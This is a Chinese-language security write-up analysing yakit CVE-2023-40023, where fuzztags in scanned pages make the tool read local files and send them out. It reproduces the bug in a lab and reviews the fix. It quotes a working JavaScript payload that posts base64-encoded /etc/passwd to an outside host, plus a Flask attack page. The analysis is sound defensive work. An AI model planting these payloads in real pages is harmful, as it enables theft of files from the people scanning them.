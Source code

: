 

# yakit CVE-2023-40023 漏洞分析 - 先知社区

yakit CVE-2023-40023 漏洞分析

- - -

## 漏洞简介

由 Medi0cr1ty 师傅发布在公众号的，通过在页面上嵌入一个 js，这里的 payload 是读取文件，并以 base64 的方式发送出去

```bash
<script>
  const xhr = new XMLHttpRequest();
  xhr.open("POST", "http://yakit.com/filesubmit");
  xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
  xhr.send(`file={{base64enc(file(/etc/passwd))}}`);
</script>
```

当 yakit 扫描到恶意网站之后，就会将 yakit 使用者机器上的 /etc/passwd文件base64编码后发送出去

## yakit 的 fuzztag

yakit 关于 fuzz 部分的文档 - [https://yaklang.io/products/Web%20Fuzzer/repeat](https://yaklang.io/products/Web%20Fuzzer/repeat)  
看了一下文档之后觉得这部分是 burpsuite 的 repeat 和 Intruder 模块  
另外序列场景感觉就是对存在时序的操作进行编排，比如说先登录再获取一个数据....

在介绍 CVE-2023-40023 原理之前需要先了解 yakit 里面的模糊测试标签 fuzztag  
fuzztag 是一种小型语法结构，它大概长这个样子：{{tagname(tagvalue)}}，例如{{randint(1,100)}}生成 1-100 随机整数

可用标签列表文档在 - [https://yaklang.io/docs/newforyak/fuzztag/](https://yaklang.io/docs/newforyak/fuzztag/)  
[![](assets/1708581544-2fc45990eaeda0b767516cdf52c912b8.png)](https://cdn.nlark.com/yuque/0/2024/png/21398751/1706695486245-949072a9-9351-4154-a2a3-adcbd04b937b.png#averageHue=%23e1c088&clientId=u8bb67454-1d83-4&from=paste&height=452&id=ud73214e9&originHeight=678&originWidth=1020&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=65372&status=done&style=none&taskId=u5750dd7e-e977-4d7d-aca5-1fbda71b7b3&title=&width=680)

在文章开始的 payload 里面我们就是用到了 base64enc 和 file 标签

-   base64enc 进行 base64 编码，{{base64enc(abc)}} => YWJj
-   file 读取文件内容，可以支持多个文件，用竖线分割，{{file(/tmp/1.txt)}} 或 {{file(/tmp/1.txt|/tmp/test.txt)}}

## 漏洞复现

### yakit 漏洞环境搭建

yakit 客户端目录在

> C:\\Users\\用户\\AppData\\Local\\Programs\\yakit

引擎目录在

> C:\\Users\\用户\\yakit-projects

在 yak-engine 目录下可以看到引擎 exe  
[![](assets/1708581544-5005b385466b764d9e44c6b84395f3ad.png)](https://cdn.nlark.com/yuque/0/2024/png/21398751/1708337217088-42d83b98-68ed-4b8c-870a-71607b1b4a76.png#averageHue=%23fbf9f9&clientId=uaea00f63-5946-4&from=paste&height=277&id=ub56a008a&originHeight=415&originWidth=887&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=29954&status=done&style=none&taskId=uee2ab08a-8e43-4938-aa5e-9a4319533a1&title=&width=591.3333333333334)  
我现在的是 v1.3.0-sp6  
[![](assets/1708581544-553f9eba5ab611915cd6c31abd9c102c.png)](https://cdn.nlark.com/yuque/0/2024/png/21398751/1708337244741-c8aee22a-f8f5-48ee-8a06-7b140f14034d.png#averageHue=%23fcf7f5&clientId=uaea00f63-5946-4&from=paste&height=543&id=u7cf2db17&originHeight=814&originWidth=794&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=114687&status=done&style=none&taskId=ue40a8187-e925-4716-b55e-41f5a0624ea&title=&width=529.3333333333334)  
根据漏洞报告 回退到存在漏洞的版本 v1.2.4  
[![](assets/1708581544-d055a7a44dc42cb154572d3e3ba84f6e.png)](https://cdn.nlark.com/yuque/0/2024/png/21398751/1708350622340-933edf54-4726-47ea-ac2f-06dd0ad36d17.png#averageHue=%23fdf9f9&clientId=u3639901f-4e03-4&from=paste&height=485&id=u3ee8e296&originHeight=727&originWidth=1385&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=105329&status=done&style=none&taskId=u3a02c8a1-df31-4dac-8adf-0d270f8896e&title=&width=923.3333333333334)  
[![](assets/1708581544-203469f5161d187bd0cf6395df04cef2.png)](https://cdn.nlark.com/yuque/0/2024/png/21398751/1708350709682-5348a559-3c3d-4331-9b2c-19acaf61bcbb.png#averageHue=%23fefefe&clientId=u3639901f-4e03-4&from=paste&height=389&id=u30275dd6&originHeight=584&originWidth=1760&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=71130&status=done&style=none&taskId=ue28443d6-ab32-4dbc-9c87-11c97b85db9&title=&width=1173.3333333333333)  
下载之后替换本地的 exe  
[![](assets/1708581544-7a71ff2caf1fdebcbc796ec75ab08ffc.png)](https://cdn.nlark.com/yuque/0/2024/png/21398751/1708350942528-4d6a6db5-7de3-4710-8707-f45b23c30ee3.png#averageHue=%23fdf8f5&clientId=u3639901f-4e03-4&from=paste&height=511&id=u372113f1&originHeight=767&originWidth=596&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=74576&status=done&style=none&taskId=u84e40f12-ac5e-47c5-97fc-eb238884d43&title=&width=397.3333333333333)  
可以看到 yakit 已经回退到漏洞版本了

### 攻击环境搭建

flask 构造恶意的 web 站点

```bash
from flask import Flask, request, render_template

app = Flask(__name__)

@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'GET':
        return render_template('index.html')
    elif request.method == 'POST':
        data = request.form.to_dict()
        return data
    else:
        return 'Unsupported request method'

if __name__ == '__main__':
    app.run(debug=True)
```

index.html 内容为

```bash
<!DOCTYPE html>
<html>
<head>
    <title>Attack Page</title>
</head>
<body>
    <h1>Hello, this is a attack page!</h1>
</body>
<script>
  const xhr = new XMLHttpRequest();
  xhr.open("POST", "http://127.0.0.1:5000");
  xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
  {% raw %}
  xhr.send(`file={{base64enc(file(C://test))}}`);
  {% endraw %}
</script>
</html>
```

### 读取本地文件

打开 yakit 的 XSS 插件，打开其他的插件也可以，当浏览器发出 POST 请求时会将请求流量镜像给插件，插件中调用了 fuzz 库，导致渲染了请求中的 fuzztag，将本机文件信息携带出去  
[![](assets/1708581544-320863d2e9e3930871806f9301eabaab.png)](https://cdn.nlark.com/yuque/0/2024/png/21398751/1708353664519-7316cca5-8ac5-44f7-855a-ac38cae2bb5e.png#averageHue=%23fcf8f6&clientId=u3639901f-4e03-4&from=paste&height=462&id=ua37700a8&originHeight=693&originWidth=1043&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=122199&status=done&style=none&taskId=u7d27c1a5-98d5-412e-ba9c-3946ed361cb&title=&width=695.3333333333334)  
访问我们的恶意网址 [http://127.0.0.1:5000](http://127.0.0.1:5000/)，可以看到已经将 test 文件的内容以 base64 编码的方式读取出来了  
[![](assets/1708581544-a191a99dfb5e062516aa9777410d3651.png)](https://cdn.nlark.com/yuque/0/2024/png/21398751/1708353765498-cc2b0fd8-a6c0-4f73-97c1-be48a5fb7aa7.png#averageHue=%23d9b881&clientId=u3639901f-4e03-4&from=paste&height=137&id=uce773362&originHeight=206&originWidth=775&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=16735&status=done&style=none&taskId=u3c443781-9269-4fdd-bdbb-ec6e0921a55&title=&width=516.6666666666666)  
[![](assets/1708581544-ef3cd8a1470233a583eb8cb41b031e00.png)](https://cdn.nlark.com/yuque/0/2024/png/21398751/1708353629407-8f7cc8f6-2aff-4b7a-92dc-4799c7d0a78e.png#averageHue=%23e1e9c4&clientId=u3639901f-4e03-4&from=paste&height=597&id=udf216329&originHeight=895&originWidth=1901&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=170768&status=done&style=none&taskId=u0b2329d9-2311-4fce-aa24-458646f24c3&title=&width=1267.3333333333333)

## 原理和修复

如果没有启动插件的话 是无法触发这个安全问题的，因为 yakit 默认不会对经过 MITM PROXY 的流量中的 fuzztag 进行解析，但是经过插件的时候会进行解析  
MITM 流量未解析 fuzztag  
[![](assets/1708581544-a645867385a8ed361862e9a246b1815b.png)](https://cdn.nlark.com/yuque/0/2024/png/21398751/1708397180327-6caf8fad-2579-4f36-a750-e233dc88ea17.png#averageHue=%23e6ecca&clientId=u36d7995b-8cb8-4&from=paste&height=537&id=ud5fa8630&originHeight=806&originWidth=1362&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=117013&status=done&style=none&taskId=ua6820eb3-6a9a-4105-884b-7dd23b0c30a&title=&width=908)  
插件解析 fuzztag  
[![](assets/1708581544-1e5737a283b74654702704217aadefa1.png)](https://cdn.nlark.com/yuque/0/2024/png/21398751/1708397202458-6e83b7af-8159-4082-a396-dba6ca56760d.png#averageHue=%23e7edca&clientId=u36d7995b-8cb8-4&from=paste&height=550&id=u618385b1&originHeight=825&originWidth=1363&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=138585&status=done&style=none&taskId=uae832c28-3457-49ee-9fc8-dd5d762c73d&title=&width=908.6666666666666)  
原代码\_httpPool 函数里面会将所有的 fuzztag 进行解析，以 file tag 为例，在 init 的时候会被设置为全局  
[![](assets/1708581544-b6527e1976ecf074c93938fd20711c54.png)](https://cdn.nlark.com/yuque/0/2024/png/21398751/1708411880386-e178458d-b234-418b-8547-3dbd607052d2.png#averageHue=%231e2024&clientId=u36d7995b-8cb8-4&from=paste&height=330&id=uda19f102&originHeight=495&originWidth=1376&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=79875&status=done&style=none&taskId=uc05559fd-f314-4822-9c73-d99e6439364&title=&width=917.3333333333334)  
在这里会对新的请求 fuzztag 进行解析  
[![](assets/1708581544-6e55713c79536f3e39782a98b687a4f8.png)](https://cdn.nlark.com/yuque/0/2024/png/21398751/1708413521689-f38e2f90-b516-44ef-8e01-7f5c4fe80335.png#averageHue=%231f2125&clientId=u4380aa82-ad0c-4&from=paste&height=327&id=u37257cc5&originHeight=490&originWidth=1019&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=81536&status=done&style=none&taskId=u3f277b32-e6a3-4347-864f-758499f6f6b&title=&width=679.3333333333334)  
所以作者修复这部分的时候，去掉了 QuickMutateWithCallbackEx2 方法，在配置里面添加了 FuzzFileOptions

```bash
func FuzzFileOptions() []FuzzConfigOpt {
    var opt []FuzzConfigOpt
    for _, t := range Filetag() {
        opt = append(opt, Fuzz_WithExtraFuzzTagHandler(t.TagName, t.Handler))
        for _, a := range t.Alias {
            opt = append(opt, Fuzz_WithExtraFuzzTagHandler(a, t.Handler))
        }
    }
    return opt
}
```

通过限制 config.ForceFuzzfile 参数来防止对 file tag 进行解析

```bash
if config.ForceFuzzfile {
    opts = append(opts, FuzzFileOptions()...)
}
```

## 参考连接

-   [https://zhuanlan.zhihu.com/p/664729922](https://zhuanlan.zhihu.com/p/664729922)
-   [https://mp.weixin.qq.com/s?\_\_biz=Mzg5ODE3NTU1OQ==&mid=2247484236&idx=1&sn=ef0c14a89721800b2311d0e487388399](https://mp.weixin.qq.com/s?__biz=Mzg5ODE3NTU1OQ==&mid=2247484236&idx=1&sn=ef0c14a89721800b2311d0e487388399)
-   [https://chat.yaklang.com/](https://chat.yaklang.com/)
-   [https://github.com/yaklang/yaklang/security/advisories/GHSA-xvhg-w6qc-m3qq](https://github.com/yaklang/yaklang/security/advisories/GHSA-xvhg-w6qc-m3qq)
